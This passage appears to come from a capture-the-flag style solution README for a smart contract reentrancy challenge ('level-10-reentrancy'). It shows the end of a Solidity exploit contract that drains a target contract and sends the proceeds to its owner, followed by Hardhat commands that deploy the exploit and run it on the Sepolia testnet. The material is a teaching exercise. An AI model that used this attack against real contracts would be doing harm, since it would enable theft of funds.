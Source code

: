 ```solidity
        } else if (attacking) {
            // We've drained the contract, stop the attack
            attacking = false;
        }
    }
    
    // Allow the owner to withdraw all ETH from this contract
    function withdraw() external {
        require(msg.sender == owner, "Only owner can call this function");
        payable(owner).transfer(address(this).balance);
    }
    
    // Get the balance of the target contract
    function getTargetBalance() external view returns (uint256) {
        return address(targetContract).balance;
    }
}
```

## Step-by-Step Solution Guide

### 1. Deploy the Reentrance Contract

If you're testing locally, deploy the Reentrance contract first:

```shell
npx hardhat deploy --tags reentrance
```

### 2. Deploy the ReentranceExploit Contract

Deploy the ReentranceExploit contract targeting the Reentrance contract:

```shell
npx hardhat deploy --tags reentrance-solution
```

Or with a specific Reentrance contract address:

```shell
TARGET_ADDRESS=0xYourReentranceAddress npx hardhat deploy --tags reentrance-solution --network sepolia
```

### 3. Execute the Exploit

Run the provided script to execute the reentrancy attack:

```shell
EXPLOIT_ADDRESS=0xYourExploitAddress TARGET_ADDRESS=0xTargetAddress npx hardhat run scripts/level-10-reentrancy/execute-reentrance-exploit.ts --network sepolia
```

Parameters:
- `EXPLOIT_ADDRESS`: Required - the address of your deployed ReentranceExploit contract
- `TARGET_ADDRESS`: Optional - will use the target address stored in the exploit contract if not provided
